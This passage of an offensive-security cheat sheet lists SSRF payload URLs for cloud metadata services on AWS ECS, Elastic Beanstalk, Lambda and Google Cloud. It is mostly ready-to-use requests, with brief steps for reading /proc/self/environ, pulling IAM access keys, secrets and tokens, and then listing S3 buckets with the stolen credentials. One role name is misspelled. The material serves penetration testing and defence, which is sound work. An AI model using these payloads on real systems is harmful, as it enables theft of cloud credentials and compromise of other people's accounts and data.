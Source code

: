 ## SSRF URL for AWS ECS

If you have an SSRF with file system access on an ECS instance, try extracting `/proc/self/environ` to get UUID.

```powershell
curl http://169.254.170.2/v2/credentials/<UUID>
```

This way you'll extract IAM keys of the attached role

## SSRF URL for AWS Elastic Beanstalk

We retrieve the `accountId` and `region` from the API.

```powershell
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

We then retrieve the `AccessKeyId`, `SecretAccessKey`, and `Token` from the API.

```powershell
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

Then we use the credentials with `aws s3 ls s3://elasticbeanstalk-us-east-2-[ACCOUNT_ID]/`.

## SSRF URL for AWS Lambda

AWS Lambda provides an HTTP API for custom runtimes to receive invocation events from Lambda and send response data back within the Lambda execution environment.

```powershell
http://localhost:9001/2018-06-01/runtime/invocation/next
http://${AWS_LAMBDA_RUNTIME_API}/2018-06-01/runtime/invocation/next
```

Docs: <https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html#runtimes-api-next>

## SSRF URL for Google Cloud

:warning: Google is shutting down support for usage of the **v1 metadata service** on January 15.

Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True"

```powershell
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```

Google allows recursive pulls
